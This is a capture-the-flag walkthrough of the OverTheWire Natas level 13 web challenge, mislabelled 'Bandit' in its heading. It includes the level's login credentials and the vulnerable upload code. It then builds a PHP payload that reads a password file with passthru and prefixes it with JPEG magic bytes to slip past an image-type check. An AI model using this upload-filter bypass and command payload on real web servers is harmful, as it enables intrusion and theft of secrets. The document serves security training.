

# BANDIT LEVEL 13

```
http://overthewire.org/wargames/natas/natas13.html
```

```
Username: natas13
Password: jmLTY0qiPZBbaKc9341cqPQZBJv7MQbY
URL:      http://natas13.natas.labs.overthewire.org
```


### SOLUTION

#### CODE INSPECTION

```
<html> 
<head> 
<!-- This stuff in the header has nothing to do with the level --> 
<link rel="stylesheet" type="text/css" href="http://natas.labs.overthewire.org/css/level.css"> 
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/jquery-ui.css" /> 
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/wechall.css" /> 
<script src="http://natas.labs.overthewire.org/js/jquery-1.9.1.js"></script> 
<script src="http://natas.labs.overthewire.org/js/jquery-ui.js"></script> 
<script src=http://natas.labs.overthewire.org/js/wechall-data.js></script><script src="http://natas.labs.overthewire.org/js/wechall.js"></script> 
<script>var wechallinfo = { "level": "natas13", "pass": "<censored>" };</script></head> 
<body> 
<h1>natas13</h1> 
<div id="content"> 
For security reasons, we now only accept image files!<br/><br/> 

<?  

function genRandomString() { 
    $length = 10; 
    $characters = "0123456789abcdefghijklmnopqrstuvwxyz"; 
    $string = "";     

    for ($p = 0; $p < $length; $p++) { 
        $string .= $characters[mt_rand(0, strlen($characters)-1)]; 
    } 

    return $string; 
} 

function makeRandomPath($dir, $ext) { 
    do { 
    $path = $dir."/".genRandomString().".".$ext; 
    } while(file_exists($path)); 
    return $path; 
} 

function makeRandomPathFromFilename($dir, $fn) { 
    $ext = pathinfo($fn, PATHINFO_EXTENSION); 
    return makeRandomPath($dir, $ext); 
} 

if(array_key_exists("filename", $_POST)) { 
    $target_path = makeRandomPathFromFilename("upload", $_POST["filename"]); 
     
    $err=$_FILES['uploadedfile']['error']; 
    if($err){ 
        if($err === 2){ 
            echo "The uploaded file exceeds MAX_FILE_SIZE"; 
        } else{ 
            echo "Something went wrong :/"; 
        } 
    } else if(filesize($_FILES['uploadedfile']['tmp_name']) > 1000) { 
        echo "File is too big"; 
    } else if (! exif_imagetype($_FILES['uploadedfile']['tmp_name'])) { 
        echo "File is not an image"; 
    } else { 
        if(move_uploaded_file($_FILES['uploadedfile']['tmp_name'], $target_path)) { 
            echo "The file <a href=\"$target_path\">$target_path</a> has been uploaded"; 
        } else{ 
            echo "There was an error uploading the file, please try again!"; 
        } 
    } 
} else { 
?> 

<form enctype="multipart/form-data" action="index.php" method="POST"> 
<input type="hidden" name="MAX_FILE_SIZE" value="1000" /> 
<input type="hidden" name="filename" value="<? print genRandomString(); ?>.jpg" /> 
Choose a JPEG to upload (max 1KB):<br/> 
<input name="uploadedfile" type="file" /><br /> 
<input type="submit" value="Upload File" /> 
</form> 
<? } ?> 
<div id="viewsource"><a href="index-source.html">View sourcecode</a></div> 
</div> 
</body> 
</html> 
```

We see pretty much the same logic as the previous level with the exception of
a new check in the webapp..

```
    } else if (! exif_imagetype($_FILES['uploadedfile']['tmp_name'])) { 
        echo "File is not an image"; 
```

Let's see what the `exif_imagetype()` function does..

```
http://php.net/manual/en/function.exif-imagetype.php

int exif_imagetype ( string $filename )
reads the first bytes of an image and checks its signature.
```

.. okay, so what if we can embed the JPG signature to the head of the file?
Let's first create a little program that tests the `exploit.php` file we used
in the previous level.

```
$ cat exploit.php
<?

passthru("echo cat /etc/natas_webpass/natas13");
passthru("cat /etc/natas_webpass/natas13");

?>
```

```
$ cat exif_imagetype.php
<?

if (exif_imagetype('./exploit.php')) {
  print "exploit.php appears to be an image\n";
}
else {
  print "exploit.php does NOT pass the image test\n";
}
$ php exif_imagetype.php
exploit.php does NOT pass the image test
```

#### EXPLOIT

We look up what the special signature of a JPG file is and find..

```
JPEG files (compressed images) start with an image marker which always
contains the marker code hex values FF D8 FF. 
```

So let's try and edit our `exploit.php` file to have this header. It may
make the file weird, but it should still work if we have the `.php` extension
as the server will still try and interpret it as PHP code.

```
$ xxd -p exploit.php
3c3f0a0a706173737468727528226563686f20636174202f6574632f6e61
7461735f776562706173732f6e61746173313422293b0a70617373746872
752822636174202f6574632f6e617461735f776562706173732f6e617461
73313422293b0a0a3f3e0a
```

Now let's append our JPG signature `ffd8ff` to the beginning of our data
stream before we reverse it back into a PHP file.

```
$ echo "ffd8ff3c3f0a0a706173737468727528226563686f20636174202f6574632f6e617461735f776562706173732f6e61746173313422293b0a70617373746872752822636174202f6574632f6e617461735f776562706173732f6e61746173313422293b0a0a3f3e0a" | xxd -p -r > exploit.php
$ cat exploit.php
���<?

passthru("echo cat /etc/natas_webpass/natas14");
passthru("cat /etc/natas_webpass/natas14");

?>
```

And now to see if it passes our test..

```
$ php exif_imagetype.php
exploit.php appears to be an image
```



Yippeeeee..


